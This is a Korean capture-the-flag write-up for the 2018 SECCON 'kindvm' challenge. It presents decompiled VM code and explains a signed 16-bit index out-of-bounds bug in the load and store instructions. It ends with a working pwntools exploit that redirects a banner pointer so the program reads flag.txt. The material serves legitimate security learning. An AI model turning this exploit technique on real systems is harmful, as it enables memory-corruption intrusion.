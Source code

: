 ```yaml
---
title: "2018 SECCON CTF kindvm"
date: 2020-7-12
ctf: SECCON CTF
layout: post
---
```


구조체는 이런식으로 만들었다.

```c
struct __attribute__((aligned(4))) vm
{
  int COUNT;
  int chk;
  char *name;
  char *banner;
  ssize_t (__cdecl *greeting)();
  ssize_t (__cdecl *farewell)();
};
```

ctf_setup() 함수는 그냥 버퍼 초기화해주고 alarm signal 5초 걸어놓는다.

kindvm_setup() 함수가 중요한 부분인데 vm 세팅해준다.

Input_insn() 함수는 명령어 인풋 받는 곳이다. insn이라는 포인터 전역변수에 저장해서 heap에 저장한다.

kc->greeting() 함수는 kc->banner를 열고 읽고 출력해준다.

kc->chk 즉 kindvm_setup에서 \x06을 셋팅하기 전까지 무한루프 돌아준다.

exec_insn() 함수는 1byte를 입력받아 명령어를 실행시켜줍니다.

Kc->farewell() 함수는 kc->greeting 함수포인터와 마찬가지로 kc->banner에 저장된 문자열을 파일을 열고 읽고 출력해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ctf_setup();
  kindvm_setup();
  input_insn();
  kc->greeting();
  while ( !kc->chk )
    exec_insn();
  kc->farewell();
  return 0;
}
```

주석으로 기능들은 설명해놨다.

```c
void *kindvm_setup()
{
  struct vm *v0; // eax
  struct vm *v1; // ebx
  void *result; // eax

  v0 = malloc(24u);
  kc = v0;
  v0->COUNT = 0;
  kc->chk = 0;
  v1 = kc;
  v1->name = input_username();
  kc->banner = "banner.txt";
  kc->greeting = func_greeting;
  kc->farewell = func_farewell;
  mem = malloc(0x400u);
  memset(mem, 0, 0x400u);
  reg = malloc(0x20u);
  memset(reg, 0, 0x20u);
  insn = malloc(0x400u);
  result = memset(mem, 'A', 0x400u);            // mem filled "A"
  nop[0] = insn_nop;                            // \x00 NOP
  load = insn_load;                             // \x01 [reg idx(1byte)] [mem idx(2byte)] mem->reg
  store = insn_store;                           // \x02 [mem idx(2byte)] [reg idx(1byte)] reg->mem
  mov = insn_mov;                               // \x03 [reg idx(1byte)] [reg idx(1byte)] reg<-reg 
  add = insn_add;                               // \x04 [reg idx(1byte)] [reg idx(1byte)] reg<-reg
  sub = insn_sub;                               // \x05 [reg idx(1byte)] [reg idx(1byte)] reg<-reg
  halt = insn_halt;                             // exit
  in = insn_in;                                 // \x07 [reg idx(1byte)] data(4byte) reg<-data
  out = insn_out;                               // \x08 [reg idx(1byte)] print
  hint = insn_hint;                             // \x09
  return result;
}
```

insn_load(\x01 [reg idx(1byte)] [mem idx(2byte)]) 함수에서 OOB 취약점이 터진다. v3를 보면 memory의 인덱스를 참조해서 주소값을 reg idx에 맞게 값을 넣어주는데 __int16으로 저장되어있다.

```c
int insn_load()
{
  int *v0; // ebx
  int result; // eax
  unsigned __int8 v2; // [esp+Dh] [ebp-Bh]
  __int16 v3; // [esp+Eh] [ebp-Ah]

  v2 = load_insn_uint8_t();
  v3 = load_insn_uint16_t();
  if ( v2 > 7u )
    kindvm_abort();
  if ( v3 > 1020 )
    kindvm_abort();
  v0 = (reg + 4 * v2);
  result = load_mem_uint32_t(v3);
  *v0 = result;
  return result;
}
```

insn_store() 함수에서도 마찬가지로 __int16 v2때문에 OOB가 터진다. heap의 원하는 주소에 mem에 reg값을 넣을 수 있다.

```c
_BYTE *insn_store()
{
  unsigned __int8 v1; // [esp+Dh] [ebp-Bh]
  __int16 v2; // [esp+Eh] [ebp-Ah]

  v2 = load_insn_uint16_t();
  v1 = load_insn_uint8_t();
  if ( v1 > 7u )
    kindvm_abort();
  if ( v2 > 1020 )
    kindvm_abort();
  return store_mem_uint32_t(v2, *(reg + v1));
}
```

익스 시나리오는 kindvm_setup() 함수에서 input_username()를 호출해준다. name에 `flag.txt` 를 적는다. 그리고 load로 OOB 취약점을 이용해서 name 영역을 참조할 수 있다. 이걸 reg[0]에 넣어준다. 무한루프가 끝나면 kc->farewell() 을 호출해주는데 이 함수에서 kc->banner에 저장된 문자열을 읽어서 출력해준다. 여기에 reg[0]를 넣는다면 kc->banner에는 &name이 저장되어 있을 것이다. \x06으로 무한루프를 끝내면 open_read_write(kc->banner)로 flag.txt를 읽을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./kindvm')
p = process('./kindvm')
mem = 0x0804B0A0
kc = 0x0804B0E8
regs = 0x0804B0EC
insn = 0x0804B0F0

# pause()

p.sendlineafter(':','flag.txt')

pay = '\x01\x00\xff\xd8' # reg[0] = &name("flag.txt")
pay += '\x02\xff\xdc\x00' # kc->banner = reg[0]
pay += '\x06' # exit
# trigger open_read_write(kc->banner);

p.sendafter('Input instruction : ',pay)

p.interactive()
```

